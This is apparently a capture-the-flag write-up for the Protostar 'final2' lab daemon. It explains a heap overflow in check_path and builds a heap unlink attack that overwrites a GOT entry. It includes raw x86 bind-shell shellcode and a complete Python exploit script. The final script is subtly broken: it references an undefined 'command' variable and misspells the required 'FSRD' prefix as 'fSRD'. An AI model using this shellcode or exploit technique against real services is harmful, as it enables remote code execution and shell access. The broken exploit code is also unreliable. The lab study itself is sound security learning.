




# Analysis

* We are given with the below source code:

```
#include "../common/common.c"
#include "../common/malloc.c"

#define NAME "final2"
#define UID 0
#define GID 0
#define PORT 2993

#define REQSZ 128

void check_path(char *buf)
{
  char *start;
  char *p;
  int l;

  /*
  * Work out old software bug
  */

  p = rindex(buf, '/');
  l = strlen(p);
  if(p) {
      start = strstr(buf, "ROOT");
      if(start) {
          while(*start != '/') start--;
          memmove(start, p, l);
          printf("moving from %p to %p (exploit: %s / %d)\n", p, start, start < buf ?
          "yes" : "no", start - buf);
      }
  }
}

int get_requests(int fd)
{
  char *buf;
  char *destroylist[256];
  int dll;
  int i;

  dll = 0;
  while(1) {
      if(dll >= 255) break;

      buf = calloc(REQSZ, 1);
      if(read(fd, buf, REQSZ) != REQSZ) break;

      if(strncmp(buf, "FSRD", 4) != 0) break;

      check_path(buf + 4);     

      dll++;
  }

  for(i = 0; i < dll; i++) {
                write(fd, "Process OK\n", strlen("Process OK\n"));
      free(destroylist[i]);
  }
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  get_requests(fd);

}
```

* <span style="color:red">*main*</span> calls <span style="color:red">*get_requests*</span>.

  - <span style="color:red">*get_requests*</span> wil accept up to 256 packets of length 128 bytes each.  

  - It will also allocate and free the chunk on the heap. 

  - if our input begins with "FSRD", it will be passed to <span style="color:red">*check_path*</span>.

  - <span style="color:red">*check_path*</span> will first try to find the "/" inside the provided string and the length from that position to the end of our input. Note that character "/" needs to be found in order to continue the execution of this function.

  - Then, it will try to find the substring "ROOT" inside our input. This must also be found in order to continue the execution.

  - After that, it finds the location of the first "/" character which precedes "ROOT". 

  - Then <span style="color:red">*memmove()*</span> will copy <span style="color:red">*l*</span> bytes starting from position <span style="color:red">*p*</span> and copy them to location pointed by <span style="color:red">*start*</span>.  

  - After returning from <span style="color:red">*check_path*</span>, the <span style="color:red">*get_requests*</span> function will free all the space allocated and exit.

* With all that in mind, lets try some inputs:

  

  - The one above prints 2 "Process OK" because our input has lengh > 128, so it splits into 2 parts, thus prints the msg twice.

  - In the source code we see that after the <span style="color:red">*memmove()*</span>, it calls <span style="color:red">*printf()*</span> to print `moving from %p to %p (exploit: %s / %d)\n`. But why there's nothing but "Process OK"? I've tried to think about it but it just seems to be a mistake, like it is not in the binary file.

# Exploit

* Okay, now what is the vulnerability here? Well, in `while(*start != '/') start--;`, there is no check that `start` is currently in the `buffer`. It just keeps going in memory, until it find a "/". 

* So, by not providing any "/" before "ROOT", it will not find "/" in current heap chunk, but it will overflow the search to the previous chunk, which, if it’s found, will allow us to overwrite data from the previous chunk using <span style="color:red">*memmove()*</span>. 

  -  This allows us to cause a heap overflow and overwrite heap chunk headers of its previous chunks and thus allowing us to manipulate memory when <span style="color:red">*free()*</span> is called on that compromised chunk.

* The main idea here is to trick <span style="color:red">*memmove()*</span> to overwrite previous chunk with enough data so it overflows into the current chunk and change it’s header data. And when the current chunk gets freed, it will allow us to do an arbitrary write, thus we can overwrite a GOT entry of some function and point it to the shellcode, which will spawn a shell.

* With all that in mind, lets first choose our shellcode. I do a quick search for payload in "linux/x86" and "tcp", and this is what I found:

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\xff\x02\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x00";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

* Okay, we'll use that. And don't forget to add leading NOPs before this (you can add as many bytes as you want, as long as it doesn't exceed 128 bytes in total):

```
shellcode = ""
shellcode += "\x90" * 30
shellcode += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" \             
            "\x5b\x5e\x52\x68\xff\x02\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a" \             
            "\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0" \             
            "\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f" \             
            "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0" \             
            "\x0b\xcd\x80\x00"
```

* The next thing we want to do is find address of our shellcode. 

  - We can use the same technique in `stack6` here. We will place our shellcode inside the `buffer`, which will be stored on the heap. So, set a breakpoint after <span style="color:red">*calloc()*</span>:

    
  
  - As you can see, the address of the first allocated chunk is 0x0804e008. 

  - Again, we can use the same technique in `stack6` here, which is place an address at halfway of NOPs to make sure it jumps to our shellcode. I'll choose 0x0804e016. So, SHELLCODE_ADDR = 0x0804e016.

* Finally, the address of GOT entry that we want to overwrite. 

  - Because we want to manipulate memory when <span style="color:red">*free()*</span> is called, we need to find some function which will get called after that and overwrite its GOT entry with the address of our shellcode.

  - We can use <span style="color:red">*write()*</span>, whose GOT entry is at 0x0804d41c:

    

  - So, GOT_ADDR = 0x0804d41c

* Okay, we have nearly everything we need. Now we need to figure out how to put them together. First lets see how the heap looks like after we enter 2 inputs:

  

  - We can see that the 1st packet data, if overflowed, could overwrite 2nd packet's header data, that is `prev_size` and `size`.
  
* So what will we put in the first packet? We can obviously do: `"FSDR/" + shellcode + padding "a" + "ROOT/"`. But as in `heap3`, when <span style="color:red">*free()*</span> is called, it writes some bytes at that location, which could overwrite part of our exploit, making it behave differently. So, I'll add a 8 byte padding before shellcode. Finally, 1st packet's data will look something like this:

```
"FSRD/" + "A" * 8 + shellcode + padding "A" + "ROOT/"
```

* What about the second packet? We have `prev_size` set to -8 (0xfffffff8) and `size` set to -4 (0xfffffffc) (fool <span style="color:red">*free()*</span> to think that the previous chunk is free).

  - After that is GOT_ADDR - 12 because, as in `heap3`;

    

  - Then comes our shellcode's address and the padding "a".

* It will looks like this :

```
"FSRDROOT/" + 0xfffffff8 + 0xfffffffc + GOT_ADDR + SHELLCODE_ADDR + padding "A"
```

* Let me do a recap:

  - When <span style="color:red">*check_path()*</span> is called upon the second packet, the `p` pointer will point to the "/" character after "ROOT", and `start` will point to the last "/" character.

  - But it won't find "/" in the current chunk, so it will "overflow" the search to the previous packet.
  
  - After that, <span style="color:red">*memmove()*</span> will write everything after "/" from the second packet to the "/" found at the end of the first packet, thus overflowing the first packet and overwriting the second packet’s headers and data.

  - The heap then will look like this:

    

  -  When <span style="color:red">*unlink()*</span> is executed, it will write our shellcode at address SHELLCODE_ADDR to the (GOT_ADDR-12)+12 = GOT_ADDR - GOT entry address. 

  - After all, the call to <span style="color:red">*write()*</span> will triggered our shellcode.

* Notice, we still need a third packet, a random one, for <span style="color:red">*write()*</span> to get called, because <span style="color:red">*write()*</span> is executed before each <span style="color:red">*free()*</span> call so another chunk is needed.


* Okay this is our final exploit:

```
import socket
import sys

GOT_ADDR = "\x10\xd4\x04\x08"
SHELLCODE_ADDR = "\x16\xe0\x04\x08"
shellcode = "\x90" * 30
shellcode += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" \
            "\x5b\x5e\x52\x68\xff\x02\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a" \
            "\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0" \
            "\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f" \
            "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0" \
            "\x0b\xcd\x80"
            
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 2993))

first_packet = "fSRD/" + "A" * 8 + shellcode + "A"*(128 - len(command) - 1 - 8 - 4  - 1 - len(shellcode)) + "ROOT/"

payload = "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff" + GOT_ADDR + SHELLCODE_ADDR
second_packet = "FSRDROOT/" + payload + "A"*(128 - len(command) - len(payload) - 4 - 1)

random_packet = command + "/" + "ROOT" + "A" * (128 - len(command) - 1 - 4)

s.send(first_packet + second_packet + random_packet + "\n")
print(s.recv(1024))
s.close()
```

* Now run it:

  

* And we get the shell:

  

# Bugs

* As mention above, this challenge is vulnerable because the while loop does not check if `start` is pointing at the current chunk or not. 


